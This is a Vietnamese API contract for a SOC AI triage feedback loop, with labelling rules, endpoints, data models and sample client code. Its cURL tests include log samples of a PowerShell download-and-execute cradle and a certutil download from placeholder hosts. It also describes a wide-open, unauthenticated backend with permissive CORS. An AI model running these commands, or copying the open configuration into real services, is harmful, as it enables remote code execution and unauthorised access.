

# SOC AI Triage — Feedback Loop API Contract (v4.0)

> **Mục đích tài liệu:** Bản đặc tả API Contract này được thiết kế chi tiết, rõ ràng và chuẩn hóa để bạn có thể **gửi trực tiếp kèm theo prompt khi "vibe coding" ở bất kỳ hệ thống nào khác** (Backend Golang, Node.js/TypeScript, Python, Frontend React/Vue, Case Management, SOAR, SIEM, Discord/Slack Bot...). Agent ở hệ thống đó chỉ cần đọc file này là có thể tự động sinh mã nguồn tích hợp gọi chức năng Feedback Loop chính xác 100%.

---

## 🤖 Prompt mẫu dành cho AI Agent khi Vibe Code ở hệ thống khác

Nếu bạn dùng Cursor, Claude, ChatGPT, Copilot hoặc bất kỳ AI Agent nào để code hệ thống khác (ví dụ: Go, TypeScript, Python), hãy copy đoạn này gửi kèm:

```markdown
Bạn là lập trình viên tích hợp hệ thống. Hãy đọc kỹ file API Contract này để hiện thực chức năng 
gửi phản hồi (Feedback Loop) từ hệ thống của chúng ta sang SOC AI Triage Backend.
- Đích gọi chính: POST /feedback (Gửi feedback trực tiếp theo từng raw log)
- Đích gọi webhook (Case Management): POST /webhook/feedback (Gửi feedback theo case_id)
- Bộ 4 nhãn chuẩn hóa bắt buộc (Unified Labels): 
    "TruePositive" | "FalsePositive" | "Benign" | "Suspicious"
  (Phân biệt hoa/thường, chuẩn PascalCase)
- Bắt và xử lý chính xác các HTTP status codes: 200, 422, 503, và lỗi kết nối mạng.
- Đối với POST /feedback: Hiển thị phản hồi trực quan gồm action (inserted/reinforced/corrected) và trust_score (1-5 sao).
```

---

## 1. Tổng quan kiến trúc & Bộ 4 Label chuẩn hóa (Unified Labels)

Feedback Loop là cơ chế **Active Learning (Human-in-the-Loop)** giúp hệ thống SOC AI liên tục tự học và cải thiện độ chính xác:

### 1.1 Quy ước Bộ 4 Label chuẩn hóa (`UnifiedLabel`)

Toàn bộ hệ thống Backend AI Orchestrator đã chuyển dịch và chuẩn hóa hoàn toàn sang **4 nhãn** sau (PascalCase, chuỗi phân biệt hoa/thường):

| Giá trị Nhãn (`label` / `verdict`) | Ý nghĩa nghiệp vụ SOC | Khi nào chuyên viên phân tích nên gán? |
| :--- | :--- | :--- |
| **`"TruePositive"`** | **Tấn công thực sự (Malicious)** | Khi phát hiện hành vi tấn công, mã độc, shell command bất thường, khai thác lỗ hổng hoặc xâm nhập mạng có thật. |
| **`"FalsePositive"`** | **Cảnh báo sai (False Alarm)** | Khi hệ thống cảnh báo nhầm do chữ ký luật quá nhạy, công cụ scan an ninh định kỳ nội bộ, hoặc lưu lượng hợp lệ bị gán cờ nhầm. |
| **`"Benign"`** | **Lành tính / An toàn (Safe)** | Hoạt động bình thường của người dùng hoặc tác vụ bảo trì, sao lưu hợp lệ của quản trị viên, hoàn toàn không có nguy cơ. |
| **`"Suspicious"`** | **Đáng ngờ / Bất thường (Anomalous)** | Hành vi bất thường hoặc dấu hiệu lạ chưa đủ bằng chứng kết luận là tấn công nhưng cũng không thể khẳng định là an toàn, cần giám sát thêm. |

> **Bảng đối chiếu chuyển đổi (Legacy Label Mapping):**
> Nếu hệ thống bên ngoài của bạn từng dùng quy ước nhãn cũ (`TP`, `FP`, `Incident`):
> - `TP` hoặc `Incident` ➔ Chuyển thành `"TruePositive"`
> - `FP` ➔ Chuyển thành `"FalsePositive"`
> - Các trường hợp bình thường đã xác minh ➔ Chuyển thành `"Benign"`
> - Các cảnh báo cần thẩm tra thêm ➔ Chuyển thành `"Suspicious"`

---

### 1.2 Cơ chế Gradual Trust Scoring & Vector Deduplication

1. Hệ thống backend sẽ:
   - Vector hóa log (`raw_log`) bằng mô hình embedding `nomic-ai/nomic-embed-text-v1.5` (768 chiều).
   - Tra cứu trong Vector Database (**Qdrant**) với ngưỡng tương đồng Cosine Similarity `0.92`.
   - **Ma trận quyết định Gradual Trust Scoring:**
     - **Không có log tương đồng ($\le 0.92$):** Tạo mới vector point (`action: "inserted"`, `trust_score: 1`).
     - **Có log tương đồng ($> 0.92$) & Cùng nhãn:** Tăng độ tin cậy (`action: "reinforced"`, `trust_score: min(hiện_tại + 1, 5)`).
     - **Có log tương đồng ($> 0.92$) & Khác nhãn:** Sửa lại nhãn theo analyst (`action: "corrected"`, ghi đè nhãn + comment, reset `trust_score: 1`).
2. Các ca đã lưu feedback này sẽ được RAG (Retrieval-Augmented Generation) tự động nạp vào ngữ cảnh của LLM trong các lượt phân tích `/analyze` tiếp theo.



---

## 2. Thông số kết nối & Chính sách CORS (Network Configuration)

### 2.1 Base URLs

| Môi trường | Base URL | Ghi chú |
| :--- | :--- | :--- |
| **Local Machine (Cùng máy Host)** | `http://localhost:8080` | Khi hệ thống khác chạy trực tiếp trên máy dev |
| **LAN / Remote Server** | `http://<IP_MAY_CHU_SOC>:8080` | Khi hệ thống khác chạy ở máy khác trong mạng nội bộ / VPN |
| **Cùng mạng Docker (Docker Compose)** | `http://api-backend:8080` | Khi hệ thống khác là 1 container cùng network `chilling-soc-net` |

### 2.2 Chính sách CORS (Cross-Origin Resource Sharing)

Hệ thống backend đã được cấu hình **mở hoàn toàn (Fully Permissive CORS)**:
- `Access-Control-Allow-Origin: *` (Cho phép mọi origin, port, frontend client gọi trực tiếp không bị chặn).
- `Access-Control-Allow-Methods: *` (GET, POST, OPTIONS, PUT, DELETE...).
- `Access-Control-Allow-Headers: *` (Cho phép mọi request headers như `Content-Type`, `Authorization`, `X-API-Key`...).
- `Access-Control-Expose-Headers: *` (Cho phép client đọc tất cả response headers).
- `Access-Control-Max-Age: 86400` (Preflight OPTIONS được cache 24h để tối ưu tốc độ).

> **Lưu ý xác thực (Authentication):** Hiện tại API backend là microservice nội bộ, **không yêu cầu API Key hay Bearer Token**. Bạn chỉ cần gửi header `Content-Type: application/json`.

---

## 3. Liveness Check Endpoint (`GET /health`)

Trước khi thực hiện tích hợp hoặc định kỳ kiểm tra sức khỏe hệ thống:

- **Method:** `GET`
- **Path:** `/health`
- **Full URL:** `http://localhost:8080/health`

### Response Mẫu (200 OK):
```json
{
  "status": "healthy",
  "qdrant": "connected",
  "llm": "connected",
  "llm_models": [
    "fdtn-ai/Foundation-Sec-8B"
  ],
  "sqlite": "connected",
  "sqlite_cases_count": 12
}
```

---

## 4. Đặc tả Chi tiết Endpoint Feedback Trực tiếp (`POST /feedback`)

Sử dụng endpoint này khi bạn có chuỗi log thô và muốn chuyên viên phân tích gắn nhãn để dạy AI ngay lập tức.

- **Method:** `POST`
- **Path:** `/feedback`
- **Full URL:** `http://localhost:8080/feedback`
- **Headers:**
  ```http
  Content-Type: application/json
  Accept: application/json
  ```

### 4.1 Request Body Schema

| Trường | Kiểu dữ liệu | Bắt buộc | Mặc định | Ràng buộc / Enum | Mô tả |
| :--- | :--- | :---: | :---: | :--- | :--- |
| `raw_log` | `string` | **Có** | — | `min_length >= 1` | Nội dung log thô cần lưu feedback (Syslog, Suricata, Windows Event, Firewall, JSON string...). |
| `label` | `string` | **Có** | — | `"TruePositive"` \| `"FalsePositive"` \| `"Benign"` \| `"Suspicious"` | **Bắt buộc** là 1 trong 4 nhãn chuẩn hóa. |
| `analyst_comment` | `string` | Không | `""` | Chuỗi văn bản | Ghi chú, giải thích của chuyên viên phân tích (ví dụ: "IP scanner nội bộ đã xác minh", "Khai thác lỗ hổng Log4j"). |

#### Ví dụ Request Body:
```json
{
  "raw_log": "Aug 22 14:33:12 fw01 kernel: DROP IN=eth0 OUT= SRC=203.0.113.42 DST=10.0.0.5 PROTO=TCP SPT=49152 DPT=443",
  "label": "FalsePositive",
  "analyst_comment": "IP 203.0.113.42 là địa chỉ của máy kiểm thử bảo mật định kỳ, lưu lượng an toàn."
}
```

---

### 4.2 Response Schema (Thành công - HTTP 200 OK)

| Trường | Kiểu dữ liệu | Giá trị có thể có | Mô tả |
| :--- | :--- | :--- | :--- |
| `status` | `string` | `"stored"` | Trạng thái lưu trữ thành công |
| `point_id` | `string` | UUID string (vd: `3fa85f64-5717-4562-b3fc-2c963f66afa6`) | Định danh bản ghi trong Qdrant Vector DB |
| `action` | `string` | `"inserted"` \| `"reinforced"` \| `"corrected"` | Hành vi xử lý của hệ thống |
| `trust_score` | `integer` | `1` đến `5` | Điểm tin cậy hiện tại của tri thức này (1 sao đến 5 sao) |

#### Ý nghĩa của trường `action`:
1. **`"inserted"`**: Log này là mẫu mới hoàn toàn chưa từng có trong Knowledge Base. Hệ thống tạo bản ghi mới với `trust_score = 1`.
2. **`"reinforced"`**: Log này tương đồng với một log đã có trong DB và bạn gán **cùng nhãn** với nhãn cũ. Hệ thống tăng điểm tin cậy `trust_score` lên thêm 1 (tối đa là 5).
3. **`"corrected"`**: Log này tương đồng với log đã có nhưng bạn gán **nhãn khác** (sửa sai cho AI hoặc sửa sai cho phân tích cũ). Hệ thống cập nhật lại nhãn mới và reset `trust_score = 1`.

#### Ví dụ Response khi INSERT mới:
```json
{
  "status": "stored",
  "point_id": "9b1deb4d-3b7d-4bad-9bdd-2b0d7b3dcb6d",
  "action": "inserted",
  "trust_score": 1
}
```

#### Ví dụ Response khi REINFORCE (củng cố tri thức):
```json
{
  "status": "stored",
  "point_id": "9b1deb4d-3b7d-4bad-9bdd-2b0d7b3dcb6d",
  "action": "reinforced",
  "trust_score": 3
}
```

#### Ví dụ Response khi CORRECT (sửa lại nhãn):
```json
{
  "status": "stored",
  "point_id": "9b1deb4d-3b7d-4bad-9bdd-2b0d7b3dcb6d",
  "action": "corrected",
  "trust_score": 1
}
```

---

## 5. Đặc tả Endpoint Webhook Feedback (`POST /webhook/feedback`)

Sử dụng endpoint này khi hệ thống khác là **Case Management / SOAR** gửi webhook về sau khi ticket/case được giải quyết đóng lại. Hệ thống SOC sẽ tự động truy vấn lại các events gốc từ SQLite theo `case_id` (chính là `alert_id`) và cập nhật Gradual Trust vào Vector DB cho toàn bộ log đó.

- **Method:** `POST`
- **Path:** `/webhook/feedback`
- **Full URL:** `http://localhost:8080/webhook/feedback`
- **Headers:** `Content-Type: application/json`

### 5.1 Request Body Schema (Webhook)

| Trường | Kiểu dữ liệu | Bắt buộc | Mô tả |
| :--- | :--- | :---: | :--- |
| `case_id` | `string` | **Có** | Khớp với `alert_id` đã phân tích trước đó trong hệ thống |
| `verdict` | `string` | **Có** | `"TruePositive"` \| `"FalsePositive"` \| `"Benign"` \| `"Suspicious"` |
| `event` | `string` | Không | Văn bản log sự kiện (tùy chọn) |
| `feedback_id`| `string` | Không | ID phản hồi từ hệ thống bên ngoài |
| `user_id` | `string` | Không | ID chuyên viên phân tích bên hệ thống Case Mgmt |
| `comment` | `string` | Không | Nhận xét / Kết luận của analyst khi đóng case |
| `created_at`| `string` | Không | Timestamp ISO 8601 (vd: `2026-09-12T10:00:00Z`) |

#### Ví dụ Request Webhook:
```json
{
  "case_id": "ALERT-20260912-9981",
  "verdict": "TruePositive",
  "comment": "Xác nhận máy chủ bị nhiễm mã độc đào tiền ảo qua cổng 8080",
  "user_id": "analyst_ha",
  "feedback_id": "FB-88319"
}
```

### 5.2 Response Schema (Webhook)
```json
{
  "status": "received"
}
```

---

## 6. Error Responses & Mã lỗi HTTP

| HTTP Code | Tên lỗi | Nguyên nhân | Cấu trúc Body | Hành động đề xuất cho Client |
| :---: | :--- | :--- | :--- | :--- |
| **`422`** | Unprocessable Entity | Dữ liệu gửi lên sai định dạng (thiếu `raw_log`, `raw_log` rỗng, hoặc `label` không nằm trong 4 nhãn chuẩn hóa). | `{"detail": [{"loc": ["body", "label"], "msg": "Input should be 'TruePositive', 'FalsePositive', 'Benign' or 'Suspicious'", "type": "literal_error"}]}` | Kiểm tra và validate form input trước khi gửi request. |
| **`503`** | Service Unavailable | Qdrant Vector DB gặp sự cố hoặc không ghi được dữ liệu. | `{"detail": "Vector DB write failed: <thông tin lỗi>"}` | Thông báo người dùng thử lại sau, hoặc kiểm tra `GET /health`. |
| **`502` / `ConnectError`** | Bad Gateway / Network Error | Backend chưa bật hoặc sai cổng/IP mạng. | HTML/Text hoặc Network Exception từ thư viện HTTP | Kiểm tra lại URL backend và kết nối container/server. |

---

## 7. Data Contracts (TypeScript, Python, Golang)

### 7.1 Golang Structs & Enums (Dành cho Go Backend / `soc_feedback.go`)

```go
package handler

// UnifiedLabel đại diện cho 4 nhãn chuẩn hóa của SOC AI Feedback Loop
type UnifiedLabel string

const (
	LabelTruePositive  UnifiedLabel = "TruePositive"
	LabelFalsePositive UnifiedLabel = "FalsePositive"
	LabelBenign        UnifiedLabel = "Benign"
	LabelSuspicious    UnifiedLabel = "Suspicious"
)

// FeedbackAction biểu thị hành động đã lưu trong Qdrant
type FeedbackAction string

const (
	ActionInserted   FeedbackAction = "inserted"
	ActionReinforced FeedbackAction = "reinforced"
	ActionCorrected  FeedbackAction = "corrected"
)

// FeedbackRequest gửi tới POST /feedback
type FeedbackRequest struct {
	RawLog         string       `json:"raw_log"`
	Label          UnifiedLabel `json:"label"`
	AnalystComment string       `json:"analyst_comment,omitempty"`
}

// FeedbackResponse nhận về từ POST /feedback
type FeedbackResponse struct {
	Status     string         `json:"status"`
	PointID    string         `json:"point_id"`
	Action     FeedbackAction `json:"action"`
	TrustScore int            `json:"trust_score"`
}

// WebhookFeedbackRequest gửi tới POST /webhook/feedback
type WebhookFeedbackRequest struct {
	CaseID     string       `json:"case_id"`
	Verdict    UnifiedLabel `json:"verdict"`
	Event      string       `json:"event,omitempty"`
	FeedbackID string       `json:"feedback_id,omitempty"`
	UserID     string       `json:"user_id,omitempty"`
	Comment    string       `json:"comment,omitempty"`
	CreatedAt  string       `json:"created_at,omitempty"`
}

// WebhookResponse nhận về từ POST /webhook/feedback
type WebhookResponse struct {
	Status string `json:"status"`
}
```

### 7.2 TypeScript / JavaScript Interfaces

```typescript
export type UnifiedLabel = "TruePositive" | "FalsePositive" | "Benign" | "Suspicious";
export type FeedbackAction = "inserted" | "reinforced" | "corrected";

export interface FeedbackRequest {
  /** Nội dung log thô bắt buộc, không được để trống */
  raw_log: string;
  /** Nhãn phân loại bảo mật chuẩn hóa */
  label: UnifiedLabel;
  /** Ghi chú phân tích của chuyên viên (tùy chọn) */
  analyst_comment?: string;
}

export interface FeedbackResponse {
  /** Luôn là "stored" khi thành công */
  status: string;
  /** ID định danh của point trong Qdrant Vector DB */
  point_id: string;
  /** Hành động đã thực hiện: "inserted" | "reinforced" | "corrected" */
  action: FeedbackAction;
  /** Điểm tin cậy từ 1 đến 5 */
  trust_score: number;
}

export interface WebhookFeedbackRequest {
  /** Khớp với alert_id đã gửi phân tích */
  case_id: string;
  /** Phán quyết đóng case */
  verdict: UnifiedLabel;
  event?: string;
  feedback_id?: string;
  user_id?: string;
  comment?: string;
  created_at?: string;
}

export interface HealthCheckResponse {
  status: "healthy" | string;
  qdrant?: "connected" | "unreachable";
  llm?: "connected" | "unreachable";
  llm_models?: string[];
  sqlite?: "connected" | "unreachable";
  sqlite_cases_count?: number;
}
```

### 7.3 Python Pydantic Models

```python
from typing import Literal, Optional
from pydantic import BaseModel, Field

UnifiedLabel = Literal["TruePositive", "FalsePositive", "Benign", "Suspicious"]

class FeedbackRequest(BaseModel):
    raw_log: str = Field(..., min_length=1, description="Raw log entry to store feedback for")
    label: UnifiedLabel
    analyst_comment: str = Field(default="", description="Analyst comment for the feedback")

class FeedbackResponse(BaseModel):
    status: str
    point_id: str
    action: Literal["inserted", "reinforced", "corrected"]
    trust_score: int = Field(ge=1, le=5)

class WebhookFeedbackRequest(BaseModel):
    case_id: str
    verdict: UnifiedLabel
    event: str = ""
    feedback_id: str = ""
    user_id: str = ""
    comment: str = ""
    created_at: str = ""
```

---

## 8. Code mẫu tích hợp sẵn sàng Copy-Paste

### 8.1 Golang (`net/http`)

```go
package main

import (
	"bytes"
	"encoding/json"
	"fmt"
	"io"
	"net/http"
	"time"
)

type UnifiedLabel string

const (
	LabelTruePositive  UnifiedLabel = "TruePositive"
	LabelFalsePositive UnifiedLabel = "FalsePositive"
	LabelBenign        UnifiedLabel = "Benign"
	LabelSuspicious    UnifiedLabel = "Suspicious"
)

type FeedbackRequest struct {
	RawLog         string       `json:"raw_log"`
	Label          UnifiedLabel `json:"label"`
	AnalystComment string       `json:"analyst_comment,omitempty"`
}

type FeedbackResponse struct {
	Status     string `json:"status"`
	PointID    string `json:"point_id"`
	Action     string `json:"action"`
	TrustScore int    `json:"trust_score"`
}

func SendFeedback(baseURL string, req FeedbackRequest) (*FeedbackResponse, error) {
	jsonData, err := json.Marshal(req)
	if err != nil {
		return nil, fmt.Errorf("marshal request failed: %w", err)
	}

	client := &http.Client{Timeout: 30 * time.Second}
	resp, err := client.Post(baseURL+"/feedback", "application/json", bytes.NewBuffer(jsonData))
	if err != nil {
		return nil, fmt.Errorf("call feedback api failed: %w", err)
	}
	defer resp.Body.Close()

	body, _ := io.ReadAll(resp.Body)
	if resp.StatusCode != http.StatusOK {
		return nil, fmt.Errorf("api returned status %d: %s", resp.StatusCode, string(body))
	}

	var fbResp FeedbackResponse
	if err := json.Unmarshal(body, &fbResp); err != nil {
		return nil, fmt.Errorf("unmarshal response failed: %w", err)
	}

	return &fbResp, nil
}
```

### 8.2 TypeScript / JavaScript (Modern `fetch`)

```typescript
export async function submitSOCFeedback(
  baseUrl: string,
  payload: {
    raw_log: string;
    label: "TruePositive" | "FalsePositive" | "Benign" | "Suspicious";
    analyst_comment?: string;
  }
) {
  const url = `${baseUrl.replace(/\/+$/, '')}/feedback`;

  const response = await fetch(url, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      "Accept": "application/json",
    },
    body: JSON.stringify({
      raw_log: payload.raw_log,
      label: payload.label,
      analyst_comment: payload.analyst_comment ?? "",
    }),
  });

  if (!response.ok) {
    let errorDetail = `HTTP ${response.status} ${response.statusText}`;
    try {
      const errJson = await response.json();
      errorDetail = JSON.stringify(errJson);
    } catch {
      // ignore non-json error
    }
    throw new Error(`Failed to submit feedback: ${errorDetail}`);
  }

  return (await response.json()) as {
    status: string;
    point_id: string;
    action: "inserted" | "reinforced" | "corrected";
    trust_score: number;
  };
}
```

### 8.3 cURL Command Test nhanh cho cả 4 nhãn

```bash
# 1. Feedback nhãn TruePositive (Tấn công thực sự)
curl -X POST "http://localhost:8080/feedback" \
     -H "Content-Type: application/json" \
     -d '{
       "raw_log": "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring(\x27http://bad.ip/evil.ps1\x27))",
       "label": "TruePositive",
       "analyst_comment": "PowerShell download cradle malware detected"
     }'

# 2. Feedback nhãn FalsePositive (Cảnh báo sai)
curl -X POST "http://localhost:8080/feedback" \
     -H "Content-Type: application/json" \
     -d '{
       "raw_log": "Aug 22 14:33:12 fw01 kernel: DROP IN=eth0 OUT= SRC=203.0.113.42 DST=10.0.0.5 PROTO=TCP DPT=443",
       "label": "FalsePositive",
       "analyst_comment": "Whitelisted Nessus vulnerability scanner"
     }'

# 3. Feedback nhãn Benign (Lành tính / An toàn)
curl -X POST "http://localhost:8080/feedback" \
     -H "Content-Type: application/json" \
     -d '{
       "raw_log": "sshd[1245]: Accepted publickey for backup_admin from 192.168.1.100 port 52140 ssh2",
       "label": "Benign",
       "analyst_comment": "Automated backup cronjob running on schedule"
     }'

# 4. Feedback nhãn Suspicious (Đáng ngờ, cần thẩm tra)
curl -X POST "http://localhost:8080/feedback" \
     -H "Content-Type: application/json" \
     -d '{
       "raw_log": "cmd.exe /c certutil -urlcache -split -f http://unknown-domain.xyz/test.txt",
       "label": "Suspicious",
       "analyst_comment": "Certutil download unusual, pending investigation"
     }'

# 5. Gửi Webhook Feedback từ Case Management
curl -X POST "http://localhost:8080/webhook/feedback" \
     -H "Content-Type: application/json" \
     -d '{
       "case_id": "ALERT-20260912-001",
       "verdict": "TruePositive",
       "comment": "Closed as confirmed malware incident",
       "user_id": "analyst_1"
     }'
```

---

## 9. Checklist kiểm tra khi Vibe Code

Khi agent ở hệ thống khác code xong, bạn có thể kiểm tra nhanh theo checklist sau:

- [ ] **URL cấu hình:** Cho phép cấu hình endpoint linh hoạt qua biến môi trường (ví dụ `VITE_SOC_API_URL` hoặc `SOC_API_URL`).
- [ ] **Validation đầu vào:** Không gửi request nếu `raw_log` (hoặc `case_id`) rỗng hoặc chỉ có khoảng trắng.
- [ ] **Nhãn hợp lệ:** Giá trị `label` / `verdict` bắt buộc phải là một trong bốn giá trị chuẩn: `"TruePositive"`, `"FalsePositive"`, `"Benign"`, hoặc `"Suspicious"`.
- [ ] **Xử lý UI trạng thái:**
  - Nếu `action == "inserted"`: Hiển thị thông báo "Đã thêm mẫu mới vào cơ sở tri thức (Trust: 1/5)".
  - Nếu `action == "reinforced"`: Hiển thị thông báo "Đã củng cố độ tin cậy của mẫu (Trust: X/5)".
  - Nếu `action == "corrected"`: Hiển thị thông báo "Đã hiệu chỉnh lại nhãn phân loại (Trust reset về 1/5)".
- [ ] **Bắt lỗi mạng:** Có loading indicator và thông báo lỗi rõ ràng nếu backend không phản hồi hoặc trả về mã lỗi 4xx/5xx.
